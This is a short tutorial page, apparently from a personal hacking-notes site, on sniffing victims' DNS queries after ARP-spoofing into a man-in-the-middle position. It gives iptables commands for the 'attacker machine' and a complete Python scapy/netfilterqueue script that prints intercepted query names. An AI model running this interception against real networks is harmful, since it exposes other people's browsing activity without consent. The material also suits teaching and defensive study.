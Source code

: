 ```yaml
---
title: "DNS request sniffing"
date: 2023-09-09T21:43:00+07:00

---
```


After we become the [mitm][arp_cache_poisoning] we can sniff the DNS Question Record's QNAME field.  
I am using netfilterqueue here, but it could be done without it as well because we are not modifying any packets on the fly, we are only inspecting.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jellepelle.github.io/doc_the_hacks/arp/arp_cache_poisoning/

```sh
iptables -I FORWARD -j NFQUEUE --queue-num 0
```

Or without arp spoofing on local machine:  
```sh
iptables -I OUTPUT -j NFQUEUE --queue-num 0
iptables -I INPUT -j NFQUEUE --queue-num 0
```

Full code:  


```python
import netfilterqueue
import scapy.all as scapy


def process_packet(packet):
    if packet.get_payload:
        try: scapy_packet = scapy.IP(packet.get_payload())
        finally:

            if scapy_packet:
                if scapy_packet.haslayer(scapy.DNSQR):
                    qname = scapy_packet[scapy.DNSQR].qname
                    print(qname)

    packet.accept()


queue = netfilterqueue.NetfilterQueue()
queue.bind(0, process_packet)
queue.run()
```
